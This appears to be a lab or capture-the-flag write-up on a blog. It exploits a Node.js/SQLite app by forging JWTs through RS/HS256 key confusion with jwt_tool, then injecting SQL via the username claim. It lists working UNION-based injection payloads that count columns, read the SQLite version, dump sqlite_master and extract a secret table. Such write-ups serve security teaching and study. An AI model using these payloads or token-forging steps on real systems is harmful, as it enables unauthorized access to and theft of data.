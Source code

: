 [back](/)

### SQL injection in Node.js webapp and JSON Web Tokens (JWT)

What JSON Web Token (JWT) is? It is an open standard (RFC 7519) for creating access tokens, in accordance with which information is transmitted in the form of a JSON object. JSON signature algorithms are used to secure the transmission of such information. More information at: [jwt.io](https://jwt.io/introduction/). There are a number of interesting techniques for exploiting vulnerabilities in JWT, but in this example I would like to show the "RS/HS256 public key mismatch vulnerability" and SQL injection exploitation through this vulnerability.

In this example there is a server with a Node.js runtime and a SQLite database, here is the example of authorization and receipt of JWT:

![Image](/img/RS_HS256/auth_jwt.png)

JWT consists of three parts: Header, Payload, Verify Signature, encoded in Base64 format:

![Image](/img/RS_HS256/jwt_decode.png)

In the process of examining the code of the Node.js web application, a fragment of an SQL query was found with the direct inclusion of the value of the parameter, which is controlled by the user: $ {username}:

![Image](/img/RS_HS256/auth_code.png)

![Image](/img/RS_HS256/vuln_code.png)


To investigate possible SQL injection and JWS token signing via "RS / HS256 public key mismatch" I used [jwt_tool](https://github.com/ticarpi/jwt_tool) tool. To generate payload, it need to change the value of the "username" parameter and then sign the JWS using public.key:

![Image](/img/RS_HS256/jwtool_1.png)

![Image](/img/RS_HS256/jwtool_pub_key_sign.png)

The SQL injection research process was accompanied by the use of the following payloads:

The answer 200 means there is an SQL injection:
```
"username" : "jaki' and 1=1 -- -"
```

![Image](/img/RS_HS256/jwtool_true_sqli.png)

![Image](/img/RS_HS256/valid_jwt_200.png)

Number of columns in error for UNION SELECT structure:
```
"username" : "' order by 5; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_2.png)

![Image](/img/RS_HS256/sqli_union_columns.png)

SQLite version:
```
"username" : "' union select 1,sqlite_version(),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_3.png)

![Image](/img/RS_HS256/sqli_ver.png)

List of all database objects and the SQL request used to create each object:
```
"username" : "' union select  1,(SELECT group_concat(sql) FROM sqlite_master),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_4.png)

![Image](/img/RS_HS256/sqli_master.png)


Retrieving sensitive information from the target table:
```
"username" : "' union select  1,(SELECT group_concat(top_secret_flaag) FROM flag_storage),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_5.png)

![Image](/img/RS_HS256/sqli_flag.png)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)
